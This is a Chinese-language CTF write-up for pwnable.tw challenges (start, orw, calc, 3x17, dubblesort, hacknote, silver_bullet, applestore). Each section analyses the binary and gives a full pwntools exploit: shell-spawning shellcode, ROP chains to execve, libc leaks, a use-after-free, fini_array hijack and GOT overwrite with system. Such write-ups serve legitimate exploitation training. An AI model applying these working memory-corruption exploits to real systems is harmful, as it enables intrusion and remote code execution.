


# 0x01 Start

未开启任何保护


尝试运行：


linux int80中断系统调用：eax用来存系统调用号，3是read，4是write；ebx、ecx、edx、esi等等寄存器则依次为参数。

这段代码大概意思就是：先将exit函数压入栈中，然后压入0x14字节大小的字符串，调用write打印0x14长度的字符串，随后调用read从用户输入读入0x3c大小的数据，注意ecx没有变，所以是将用户的输入从栈顶开始，于是这里就存在栈溢出。


函数栈如下：


解题思路：

没有NX保护，先构造第一次输入，覆盖返回地址ret到write函数起始`0x8048087`，利用write泄露esp0栈基址；然后构造第二次输入将返回地址ret_addr覆盖成shellcode起始地址(esp0+14h)，注意第二次read起始地址不是esp0，是esp0-4的位置。

构造exp：

```python
from pwn import*

p = remote('chall.pwnable.tw',10000)
shellcode = "\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80"
#gdb.attach(p)
payload = 'a'*0x14+p32(0x08048087)
#payload = shellcode
#gdb.attach(p)
p.send(payload)
p.recvn(0x14)
esp0 = u32(p.recv(4))
payload = 'a'*0x14+p32(esp0+0x14)+shellcode
p.send(payload) 
p.interactive()
```

> FLAG{Pwn4bl3_tW_1s_y0ur_st4rt}

# 0x02 orw


这里用到沙盒seccomp，详情[参考](https://blog.51cto.com/u_15127593/3259635)

> 安全计算模式 seccomp（Secure Computing Mode）是自 Linux 2.6.10 之后引入到 kernel 的特性。一切都在内核中完成，不需要额外的上下文切换，所以不会造成性能问题。目前 在 Docker 和 Chrome 中广泛使用。使用 seccomp，可以定义系统调用白名单和黑名单，可以 定义出现非法系统调用时候的动作，比如结束进程或者使进程调用失败。
>
> seccomp机制用于限制应用程序可以使用的系统调用，增加系统的安全性。
>

用seccomp-tools查看限能使用的系统调用：open, read, write，将这三个函数开头字母作为简称，也就是题名orw，orw题型总结可[参考](https://x1ng.top/2021/10/28/pwn-orw%E6%80%BB%E7%BB%93/)


常用shellcode为

```c
#fd = open('/home/orw/flag',0) 
s = ''' xor edx,edx; mov ecx,0; mov ebx,0x804a094; mov eax,5; int 0x80; '''

#read(fd,0x804a094,0x20) 
s = ''' mov edx,0x40; mov ecx,ebx; mov ebx,eax; mov eax,3; int 0x80; '''

#write(1,0x804a094,0x20) 
s = ''' mov edx,0x40; mov ebx,1; mov eax,4 int 0x80; '''
```

exp：

```python
#!/usr/bin/python
from pwn import *
context.log_level = 'debug'
context.binary='./orw'
io = process('orw')
#io = remote('chall.pwnable.tw', 10001)
shellcode = '''
push 0x00006761
push 0x6c662f77
push 0x726f2f65
push 0x6d6f682f		// /home/orw/flag\x00
mov eax,0x5
mov ebx,esp
xor ecx,ecx
int 0x80
mov ebx,eax
mov ecx,esp
mov edx,0x30
mov eax,0x3
int 0x80
mov ebx,1
mov eax,0x4
int 0x80
'''
shellcode = asm(shellcode)
io.recvuntil(':')
io.send(shellcode)
io.interactive()
```

> FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}

# 0x03 calc

开启NX，Canary


主函数先是一个计时器，主要在calc函数


get_expr函数作用大致为：，过滤输入，保存数字和运算符到expression中。

parse_expr解析我们所输入的表达式，计算结果，结果保存在v2[pool-1]中

eval函数为具体运算函数，pool为参数数组，pool[0]记录参数个数，pool[1], pool[2]...分别表示第一、二个参数。


> **漏洞点**
>
> 如表达式`1+2`
>
> pool[0]=2, pool[1]=1, pool[2]=2
>
> 计算过程为：
>
> pool[pool[0]-1] += pool[pool[0]]，-> pool[0]=1, pool[1]=3
>
> 当表达式为 `+100+1` 时，pool[0]=1, pool[1]=100
>
> 则计算结果为 pool[0]=101，*pool为当前数据个数，后续调用printf，这样就达任意读写内存的目的

然后calc调用printf打印结果num[0]，由于可以控制pool，所以可以在栈上实现任意读写


calc函数堆栈如图


59Ch = 359*4

ebp0 = num[359+1], ret = num[359+1+1]，+1是因为调用printf时，`num[pool-1]`

构造系统调用gadget

```
eax=0xb 
ebx=“/bin/sh”字符串的地址 
ecx=0 
edx=0 
int 80h

'''使用ROPgadgetx
0x0805c34b : pop eax ; ret
0x080701d1 : pop ecx ; pop ebx ; ret
0x080701aa : pop edx ; ret
0x08049a21 : int 0x80
'''
eax:调用号
edx:0
ecx:0
ebx:binsh --> execv(binsh,0,0)

payload = [0x0805c34b,0xb,0x080701aa,0,0x080701d1,0,bin_sh,0x08049a21,0x6e69622f,0x0068732f]
```

本地调试calc函数，ebp中存储了ebp+20h的地址，需要先在ret地址处写入8个gadget和参数（共占32字节），然后再在栈中写入“bin/sh”。所以binsh地址可以用ebp+24h来表示


```
bin_sh = ebp+4
```

完整exp：

```python
from pwn import*
proc = './calc'
ip = 'chall.pwnable.tw' 
port = 10100
#p = process(proc)
p = remote(ip,port)
context.log_level = "Debug"
p.recvuntil('=== Welcome to SECPROG calculator ===\n')
off = 361
p.sendline("+"+str(360)) 
ebp = int(p.recvline(),10) # leak ebp
bin_sh = ebp + 4

'''
0x0805c34b : pop eax ; ret
0x080701d1 : pop ecx ; pop ebx ; ret
0x080701aa : pop edx ; ret
0x08049a21 : int 0x80
'''
#ROP_chain
payload = [0x0805c34b,0xb,0x080701aa,0,0x080701d1,0,bin_sh,0x08049a21,0x6e69622f,0x0068732f]


for i in range(len(payload)):
    p.sendline("+"+str(off+i))
    num = int(p.recvline())

    diff = payload[i] - num
    if diff > 0 :
        p.sendline("+"+str(off+i)+"+"+str(diff))
    else:
        p.sendline("+"+str(off+i)+str(diff))
    p.recvline()

#gdb.attach(p)

p.sendline()
p.interactive()
```

# 0x04 3x17


该程序是静态链接的，并且去掉了符号表，ida中的函数都是未命名的，需要找到main函数。

除了main函数外还有\_init，\_fini，_start，\_\_libc_start_main，\_\_libc_csu_init，__libc_csu_fini几个重要函数，由于程序是静态链接，所以程序入口点就是ida中的\_start函数。\_start函数会调用\_\_libc_start_main，然后再调用main函数。


根据\_\_libc_start_main函数原型得到其参数：main, argc, ubp_av, init, fini, rtld_fini。再根据64位调用约定（rdi, rsi, rdx, rcx, r8, r9），得知rdi中就是main函数地址。


>  *0，1，2* *文件描述符*fd代表标准输入设备（比如键盘），标准输出设备（显示器）和标准错误

main函数主要功能：输入一个地址，然后在函数`sub_40EE70`中进行变化，然后再向变化后的地址里写入标准输入的内容，最后还有个栈溢出检查。


动调得知，输入999，输出0x3e7（999），函数`sub_40EE70`作用是将输入字符串转换成16进制整型。所以可以向任意地址写任意内容，是一个任意地址写漏洞，写入大小最大位0x18字节。

参考wp思路，在main函数启动前后，会执行init和fini函数分别执行初始化和收尾工作，而init和fini函数由\_\_libc_csu_init()和__libc_csu_fini()调用。通过覆盖finit\_array数组中函数地址就可以在main函数结束之后控制函数执行流。

```c
void
__libc_csu_fini (void)
{
#ifndef LIBC_NONSHARED
  size_t i = __fini_array_end - __fini_array_start;
  while (i-- > 0)
    (*__fini_array_start [i]) ();

# ifndef NO_INITFINI
  _fini ();
# endif
#endif
}
```

查看\_\_libc_csu_fini源码，可知__fini_array中的函数是逆序调用的。

one_gadget查看程序并没有找到 “/bin/sh” 或者后门函数，需要构造ROP。


查看.fini_array段，发现存在两个函数。将fini_array[1]修改成main函数，fini_array[0]改为libc_csu_fini函数，即可实现循环调用main。


之后就可以无限次数任意内容写入，从而构造ROP

```python
bin_sh = 随便一个地址都行
payload = [0x0805c34b,0x3b,0x000406c30,0,0x00446e35,0,0x0401696,bin_sh,0x00471db5]

'''
0x000000000041e4af : pop rax ; ret
0x0000000000401696 : pop rdi ; ret
0x0000000000406c30 : pop rsi ; ret
0x0000000000446e35 : pop rdx ; ret
0x0000000000471db5 : syscall ; ret
'''
```

然后需要考虑的就是如何获取栈位置写入ROP，之后再写入劫持指令地址到fini_array[0]来打破main-libc_csu_fini循环跳转更改栈顶即可。


\_\_libc_csu_fini中rbp作为fini_array[]寻址的一个寄存器，此时`rbp=0x4B40F0`。

若将跳转函数劫持到`leave ret`指令时，（leave = mov rsp, rbp pop rbp），则有

```
mov rsp, rbp;
rsp = rbp = 0x4B40F0
pop rbp;
rbp = [rsp] = [0x4B40F0] //fini_array[0]
rsp = 0x4B40F8
ret;
rip = [rsp] = [0x4B40F8] //fini_array[1]
rsp = 0x4B4100
```

这样就实现了劫持rsp，保证之后rip位置的代码不破坏栈结构，切存在ret指令来触发我们构造的ROP。

此时rip还是为main函数地址，但是注意开头有个变量检测（会溢出清0重新置1，所以会一直循环任意地址写），当不满足会直接返回，所以并不会破坏栈结构。

exp.py

```python
from pwn import *
context(arch="amd64",os='linux',log_level='debug')
ip = 'chall.pwnable.tw'
port = 10105

fini_array = 0x4B40F0
main_addr = 0x401B6D
__libc_csu_fini = 0x402960

#io = process("./3x17")
io = remote(ip, port)

#addr1 = str(fini_array)
#data1 = p64(__libc_csu_fini)+p64(main_addr)

def write_data(addr, data):
	io.recv()
	io.send(str(addr))
	io.recv()
	io.send(data)

write_data(fini_array,p64(__libc_csu_fini)+p64(main_addr))

rsp = 0x4B4100
bin_sh_addr = 0x00000000004B41C0 # data段随便找的一个空位置写入

'''
0x000000000041e4af : pop rax ; ret
0x0000000000401696 : pop rdi ; ret
0x0000000000406c30 : pop rsi ; ret
0x0000000000446e35 : pop rdx ; ret
0x0000000000471db5 : syscall ; ret
0x0000000000401c4b : leave ; ret
'''
rax_addr = 0x000000000041e4af
rdi_addr = 0x0000000000401696
rsi_addr = 0x0000000000406c30
rdx_addr = 0x0000000000446e35
syscall_addr = 0x0000000000471db5
leaveret_addr = 0x0000000000401c4b

write_data(bin_sh_addr, '/bin/sh\x00')

write_data(rsp, p64(rax_addr)+p64(0x3b))
write_data(rsp+16, p64(rdi_addr)+p64(bin_sh_addr))
write_data(rsp+32, p64(rsi_addr)+p64(0))
write_data(rsp+48, p64(rdx_addr)+p64(0))
write_data(rsp+64, p64(syscall_addr))

write_data(fini_array, p64(leaveret_addr))

io.interactive()
```


知识点：x64静态编译程序的fini_array劫持

> 参考：
>
> [https://xuanxuanblingbling.github.io/ctf/pwn/2019/09/06/317/)](https://xuanxuanblingbling.github.io/ctf/pwn/2019/09/06/317/)

# 0x05 dubblesort


保护全开


运行发现会泄露内存


> 漏洞点：
>
> 1. n大小没有限制，栈空间有限，可以造成栈溢出漏洞
> 2. read函数，用来读取name，read通过输入字符的回车就截断了，如果这个回车后面不是00，printf就会一起打印出来，可以用来泄露栈中内容

利用：

考虑使用ret2libc，获取题目提供的libc中组件地址


**system_off = 0x3a940**


**binsh_off = 0x158e8b**

vmmap查看libc基址


输入name，查看堆栈


发现name[]偏移24和28的值为libc上的地址，计算与libc基址的偏移

```
0xf7fb7000 - 0xf7e04000 = 0x1B3000
0xf7fb5244 - 0xf7e04000 = 0x1B1244
```

`0xf7fb7000 - 0xf7e04000 = 0x1B3000`正好是本地libc中`.got.plt`偏移地址


题目给的libc中.got.plt偏移则为`0x001b0000`，之后可以用这个值来泄露目标主机中的libc基址。

具体泄露方法：

向name[]输入24*‘a’，之后由于换行符'/0x0a'会覆盖下一个dword的低字节，由于低字节为'/0x00'，所以只需要将读出来的DWORD值减去'/0x0a'，再减去.got.plt的偏移，即可得到目标主机libc基址。

**libc_addr = leak_addr - 0x0a - 0x001b0000**


之后就是考虑如何布置栈结构，sort函数会对我们的输入进行排序

程序开启了canary保护，会检测栈溢出情况，需要进行绕过。读入数字的代码是scanf


> 按wp的说法是scanf无法识别非法字符或者是无效字符
>
> - 非法字符指不是%u类型的字符，如a, b, c等
> - 无效字符指合法但无法识别的字符，如+, -
>
> 如果输入非法字符，输入流不清空，非法字符一直会一直留在stdin，这样剩下的scanf读入的都是非法字符，pass。所以可以通过输入`+`或`-`，因为这两个符号可以定义正负数，如果输入数字替换成这两个数字，读入只会视为无效而不是非法，canary不会被修改。

ret2libc具体利用堆栈如下：


exp：

```python
from pwn import *
#context(arch="i386",os="linux",log_level="debug")
#io = process('./dubblesort')
io = remote('chall.pwnable.tw', 10101)


io.recvuntil('What your name :')
io.sendline('A'*24)
leak_addr = u32(io.recv()[30:34]) - 0x0a


''' local libc
libc_addr = leak_addr - 0x1B3000
system_addr = libc_addr + 0x0003adb0
binsh_addr = libc_addr + 0x0015bb2b
'''

libc_addr = leak_addr -  0x001b0000
system_addr = libc_addr + 0x3a940
binsh_addr = libc_addr +  0x158e8b

#io.recvuntil('How many numbers do you what to sort :')
io.sendline('35')

for i in range(24):
        io.sendline('1')
        io.recv()

io.sendline('+')

for i in range(9):
        io.sendline(str(system_addr))
        io.recv()

io.sendline(str(binsh_addr))
io.recv()

io.interactive()
```

总结：

scanf和printf泄露栈上libc地址，计算偏移得到libc基址

非法字符绕过canary完成栈溢出

然后构造栈空间return2libc

多重保护下的栈溢出

# 0x06 hacknote

开启NX、Canary保护


主要功能：增删查


main函数主要逻辑就是读取用户输入来调用不同处理函数


Add_note()函数，首先检查note数量，然后遍历ptr[i]查找空闲区域，然后做两次malloc操作，第一次创建创建note结构体，第二次创建该note的buf，从stdin读入size大小的用户输入到buf，创建完成后全局变量`Note_count`加一。


note数据结构：


print_func_addr指向打印函数，buf_ptr用户输入的内容地址


Del_note函数首先检查访问下标，若下标合法，则释放`ptr[index]`和`(void*)ptr[index]+1`，分别对应note的buf_ptr和note节点本身。但是free之后并没有对指针进行置0，造成两个悬挂指针`dangling pointer`使，用Print_node函数依然可以调用`0x804b008`这个地址的函数，导致可以对释放后的指针进行操作，造成Use After Free。

free之后，note分配的指针


free之后，note内容分配的指针


```c
int __cdecl Print_function(int a1)
{
  return puts(*(const char **)(a1 + 4)); // Print_function将a1偏移+4作为put函数参数
}
```

利用思路：

Del_note里存在UAF，只需要修改print_func_addr的值，再调用Print_note，就可以劫持控制流

没有后门函数，需要泄露libc基址

[堆结构](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/heap-structure/)

```
del 0
del 1
```

可以看到两个8字节的chunk链接在一起，两个24字节的chunk链接在一起（通过previous）。


```
add(8, 'bbbbbbb')
```

选择大于等于改空间大小的chunk进行分配


写入print_note_addr和malloc函数的got，就可以泄露libc基址

然后再写入system函数地址和参数调用print_note就可以直接调用system，参数注意是本身`system_addr+参数`，可以通过'||'或';'对命令进行分割，识别`system_addr`为无效command之后再执行后续command，构造如下：

```
add(8, p32(system_addr) + ';sh\x00')
```

exp

```python
from pwn import *

context(arch="i386",os="linux",log_level="debug")
elf = context.binary = ELF('./hacknote')

#elf_libc = ELF('libc_32.so.6')
#io = remote('chall.pwnable.tw', 10102)

elf_libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')
io = process('./hacknote')


print_addr = 0x0804862B

def add(size, content):
	io.recvuntil('Your choice :')
	io.send(str(1))
	io.recvuntil(':')
	io.send(str(size))
	io.recvuntil('Content :')
	io.send(content)

def delete(index):
    io.recvuntil('Your choice :')
    io.send(str(2))
    io.recvuntil('Index :')
    io.send(str(index))
 
def show(index):
    io.recvuntil('Your choice :')
    io.send(str(3))
    io.recvuntil('Index :')
    io.send(str(index))

add(16, 16*'a')

add(16, 16*'a')

delete(0)
delete(1)

add(8,p32(print_addr) + p32(elf.got['malloc']))

show(0)

malloc_got = u32(io.recvn(4)[:4])
log.success("malloc_got = " + hex(malloc_got))

libc_addr = malloc_got - elf_libc.symbols['malloc']

system_addr = libc_addr + elf_libc.symbols['system']

binsh_addr = libc_addr + 0X0015bb2b

delete(2)

add(8, p32(system_addr) + ';sh\x00')
attach(io)
show(0)

io.interactive()
```

总结：

UAF

chunk

使用中的chunk


释放后的chunk


fastbin：glibc采用单向链表对其中的每个 bin 进行组织,并且每个bin采取LIFO策略,也就是和栈一样,最近释放的chunk会被更早的分配.不同大小的chunk也不会被链接在一起,fastbin支持从16字节开始的10个相应大小的bin.

First Fit算法：空间分区以地址递增的次序链接,分配内存时顺序查找,找到大小能满足要求的第一个空闲分区.如果分配内存时存在一个大于或等于所需大小的空间chunk,glibc就会选择这个chunk.

plt、got：


# 0x07 Silver_Bullet




```
$ ./silver_bullet
+++++++++++++++++++++++++++
       Silver Bullet       
+++++++++++++++++++++++++++
 1. Create a Silver Bullet 
 2. Power up Silver Bullet 
 3. Beat the Werewolf      
 4. Return                 
+++++++++++++++++++++++++++
Your choice :1
Give me your description of bullet :aaaaaa
Your power is : 6
Good luck !!
+++++++++++++++++++++++++++
       Silver Bullet       
+++++++++++++++++++++++++++
 1. Create a Silver Bullet 
 2. Power up Silver Bullet 
 3. Beat the Werewolf      
 4. Return                 
+++++++++++++++++++++++++++
Your choice :2
Give me your another description of bullet :aaaa
Your new power is : 10
Enjoy it !
+++++++++++++++++++++++++++
       Silver Bullet       
+++++++++++++++++++++++++++
 1. Create a Silver Bullet 
 2. Power up Silver Bullet 
 3. Beat the Werewolf      
 4. Return                 
+++++++++++++++++++++++++++
Your choice :3
>----------- Werewolf -----------<
 + NAME : Gin
 + HP : 2147483647
>--------------------------------<
Try to beat it .....
Sorry ... It still alive !!
Give me more power !!
+++++++++++++++++++++++++++
       Silver Bullet       
+++++++++++++++++++++++++++
 1. Create a Silver Bullet 
 2. Power up Silver Bullet 
 3. Beat the Werewolf      
 4. Return                 
+++++++++++++++++++++++++++
Your choice :4
Don't give up !
```

main函数如下，菜单模式，根据选项调用不同函数


create_bullet


read_input函数


先判断bullet是否存在，否则调用read_input读取stdio输入的description，之后根据description的长度决定bullet的power数值


power_up


判断power值是否大于47，若小于则从stdio读取`48-power`大小的字节到s，然后拼接s到bullet上，并重新计算赋值power


beat


main函数堆栈


漏洞点

strncat函数原理是将n个字符接到目标字符串后并添加\x00，若创建的时候description只输入0x20个字符，然后调用power_up添加0x10个字符就会出现以下情况：


power值被strncat添加的\x00覆盖，之后加上powerup的新值，这就导致绕过powerup中的长度判断，可以继续向堆栈写入从而导致栈溢出。

如何泄露libc基址，参考wp思路：覆盖返回地址为puts函数plt调用puts函数，然后puts函数返回地址为main函数首地址，参数为puts的got值。

由于strncat会添加\x00所以只需要7个字节就可以覆盖至返回地址处


exp

```python
from pwn import *

context(arch="i386",os="linux",log_level="debug")

elf = context.binary = ELF('./silver_bullet')

#elf_libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')
#io = process('./silver_bullet')

elf_libc = ELF('libc_32.so.6')
io = remote('chall.pwnable.tw', 10103)


def Create(description):
	io.recvuntil('Your choice :')
	io.send(str(1))
	io.recvuntil(':')
	io.send(description)

def Powerup(description):
    io.recvuntil('Your choice :')
    io.send(str(2))
    io.recvuntil(':')
    io.send(description)
 
def Beat():
    io.recvuntil('Your choice :')
    io.send(str(3))

Create('A'*0x2C)
Powerup('A'*0x4)

main_addr = elf.symbols['main']
puts_plt = elf.symbols['puts']
puts_got = elf.got['puts']

#Powerup(p32(0xffffffff)+p32(0xffffff)+p32(puts_plt)+p32(main_addr)+p32(puts_got))
Powerup("\xff"*7+p32(puts_plt)+p32(main_addr)+p32(puts_got))
Beat()
#gdb.attach(io)
io.recvuntil('Oh ! You win !!\n')
puts = u32(io.recv(4))
libc_addr = puts - elf_libc.symbols['puts']

Create('A'*0x2C)
Powerup('A'*0x4)

#one_gadget
one_gadget = libc_addr + 0x5f065
Powerup("\xff"*7+p32(one_gadget))

#system('/bin/sh')
system_addr = libc_addr + elf_libc.symbols['system']
binsh_addr = libc_addr + 0X158e8b
#Powerup("\xff"*7+p32(system_addr)+p32(0xffffffff)+p32(binsh_addr))

Beat()

io.interactive()
```

总结：

strncat(dest,src,n)的功能是将src的前n个字节的字符追加到dest字符串后面,然后再加上\x00结尾，不加以检查就可能会造成溢出。

栈溢出泄露libc方式：覆盖返回地址为puts的plt地址，参数选择为puts的got地址，函数返回时泄露，然后再根据偏移计算libc基址

# 0x08 applestore


```
$ ./applestore
=== Menu ===
1: Apple Store
2: Add into your shopping cart
3: Remove from your shopping cart
4: List your shopping cart
5: Checkout
6: Exit
> 1
=== Device List ===
1: iPhone 6 - $199
2: iPhone 6 Plus - $299
3: iPad Air 2 - $499
4: iPad Mini 3 - $399
5: iPod Touch - $199
> 2
Device Number> 1
You've put *iPhone 6* in your shopping cart.
Brilliant! That's an amazing idea.
> 4
Let me check your cart. ok? (y/n) > y
==== Cart ====
1: iPhone 6 - $199
> 3
Item Number> 1
Remove 1:iPhone 6 from your shopping cart.
> 5
Let me check your cart. ok? (y/n) > y
==== Cart ====
Total: $0
Want to checkout? Maybe next time!
> 6
Thank You for Your Purchase!
```

**程序分析：**

main函数，主要调用menu显示选项列表，再调用handler函数处理用户输入


handler函数用`my_read`读入用户输入，switch-case来调用选项函数

购物车双向链表结构如下，由bbs段中的myCart作为表头


```
Struct myCart{
	char* name;
	int price;
	myCart* next;
	myCart* prev;
}
```


list()



add()


add()调用insert()，insert()作用就是执行一个双向链表的插入节点的操作


delete()，这里存在一次unlink内存写操作

```
next[3]=prev
prev[2]=next
```


cart()，遍历购物车链表添加


checkout()，注意这个函数，当总价7174时会将iphone8加入购物车，但是iphone8这个结构是存储在栈上的，不同于add()中的商品都是通过create()来malloc 16字节内存存在堆上。


**漏洞点：**

也就是checkout函数，将栈上的iphone8插入链表中，导致栈地址被写入堆中，iphone8结构地址为[ebp-20h]，并且没有将next置0，而是保留了栈上原有的内容，可以造成泄露。

z3求解一下满足7174元的方程

```
from z3 import *
x = Int('x')
y = Int('y')
z = Int('z')
k = Int('k')
j = Int('j')
solve(x>0,y>0,z>0,k>0,j>0,199*x+299*y+499*z+399*k+199*j == 7174)

$ python solve.py
[k = 1, x = 10, y = 9, z = 3, j = 3]
```

尝试满足7174这个条件运行一下，可以看到再次调用cart函数遍历列表的时候会发生错误。经调试发现是栈上数据已被其他函数修改形成垃圾数据，iphone8这个结构的next指针指向地址不可访问，导致程序错误。


**利用：**

思路：使用满足iphone8的输入将可控的栈空间link到链表中，之后泄露libc基址和栈基址，之后使用delete中的unlink操作对内容进行写操作来替换got表调用system

泄露libc基址

由于checkout、add、cart、delete四个函数都由handler调用，所以调用栈的ebp相同，而iphone8这个节点存在于checkout函数栈中[ebp-20h]这个位置开始。cart函数中用户输入的buf从[ebp-22h]开始，读入大小为21字节，只要首字母为'y'就可以进行打印，大小也满足修改iphone8节点中的数据，可以利用这点造成泄露。

```python
payload1 = 'y\x00'+p32(elf.got['atoi'])+p32(1)+p32(0x0804B070)+p32(0)
```


payload1将name部分覆盖为got['atoi']，然后就可以泄露atoi的真实地址，从而得到libc基址

泄露栈地址

参考wp，得知可以使用glibc中的environ来获取栈地址。

在 Linux 系统中，glibc 的环境指针 environ(environment pointer) 为程序运行时所需要的环境变量表的起始地址，环境表中的指针指向各环境变量字符串。

获取之后动调程序计算得到需要泄露的栈地址与environ的偏移。

```python
environ = elf_libc.symbols['environ'] + libc_addr
payload2 = 'y\x00'+p32(environ)+p32(1)+p32(0x0804B070)+p32(0)
ebp = stack_addr - offset
```

劫持ebp

handler函数中的每个调用函数的nptr位置都是`char nptr; // [esp+26h] [ebp-22h]`。每个函数返回handler后都会对用户输入进行一次atoi的调用。

delete中存在一次unlink的内存写操作，将目标节点进行如下操作

```c
next[3]=prev
prev[2]=next
```

已知第27的iphone8节点是链表中的栈上节点，且可以通过nptr的栈溢出任意修改栈上这块位置的内容。

那么将该节点的next和prev分别设置为got['atoi']+0x22，ebp-0x8，unlink操作就等价于：

```c
next = got['atoi']+0x22;
prev = ebp-0x8;
prev[2] = ebp-0x8+0x8 = ebp = next = got['atoi']+0x22;
-> ebp = got['atoi']+0x22
```

这里的ebp指的是delete函数中ebp寄存器中存储的值，在delete调用结束之后，通过leave指令，将该值pop到handler函数的ebp寄存器中。

挟持got

回到handler函数


此时nptr地址为ebp-0x22，也就是got['atoi']+0x22-0x22 = got['atoi']。

之后调用my_read对nptr进行写入，就是直接对got表中的atoi函数地址进行写入。

```
system_addr = libc_addr + elf_libc.symbols['system']
payload3 = p32(system_addr)+'||/bin/sh\x00'
```

写入payload3，调用atoi时直接将nptr内容作为参数进行调用，getshell

exp

```python
from pwn import *

context(arch="i386",os="linux",log_level="debug")

elf = context.binary = ELF('./applestore')

#elf_libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')
#io = process('./applestore')

elf_libc = ELF('libc_32.so.6')
io = remote('chall.pwnable.tw', 10104)

def add(id):
	io.recvuntil('> ')
	io.send(str(2))
	io.recvuntil('Device Number> ')
	io.send(str(id))

def delete(id):
	io.recvuntil('> ')
	io.send(str(3))
	io.recvuntil('Item Number> ')
	io.send(id)

def cart(id):
	io.recvuntil('> ')
	io.send(str(4))
	io.recvuntil('Let me check your cart. ok? (y/n) > ')
	io.send(id)

def checkout():
	io.recvuntil('> ')
	io.send(str(5))
	io.recvuntil('Let me check your cart. ok? (y/n) > ')
	io.send('y')

def get7174():
	add(1)	
	for i in range(9):
		add(1)
		add(2)
	for i in range(3):
		add(3)
		add(5)
	add(4)

get7174()

checkout()

# leaking libc
cart('y\x00'+p32(elf.got['atoi'])+p32(1)+p32(0x0804B070)+p32(0))

io.recvuntil('27: ')
atoi_addr = u32(io.recv(4))
log.success("atoi_addr = " + hex(atoi_addr))
libc_addr = atoi_addr - elf_libc.symbols['atoi']
log.success("libc_addr = " + hex(libc_addr))
'''
io.recvuntil('28: ')
first_chunk_addr = u32(io.recv(4))
heap_addr = first_chunk_addr - 0x490
log.success("heap_addr = " + hex(heap_addr))
'''

environ = elf_libc.symbols['environ'] + libc_addr
#gdb.attach(io,'b * 0x08048B03')
cart('y\x00'+p32(environ)+p32(1)+p32(0x0804B070)+p32(0))

io.recvuntil('27: ')
stack_addr = u32(io.recv(4))
log.success("stack_addr = " + hex(stack_addr))
ebp = stack_addr - 0x104


delete('27'+p32(0x08049068)+p32(1)+p32(elf.got['atoi']+0x22)+p32(ebp-0x8))

system_addr = libc_addr + elf_libc.symbols['system']

io.recvuntil('> ')
io.send(p32(system_addr)+'||/bin/sh\x00')

#gdb.attach(io,'b * 0x08048B03')
io.interactive()
```

总结

glibc中的environ可以用来获取栈地址

双向链表unlink可以写内存

函数调用堆栈变化，劫持ebp可以影响调用者之后的代码处理

got表劫持，相当于hook

# re-alloc


Realloc函数

```c
void *realloc(void *ptr, size_t size);
```

根据参数情况的不同等效作用：

- ptr == 0, size != 0: malloc(size)
- ptr != 0, size == 0: free(ptr)
- ptr != 0, size != old_size:  释放之前的块再重新分配一个（保存数据）
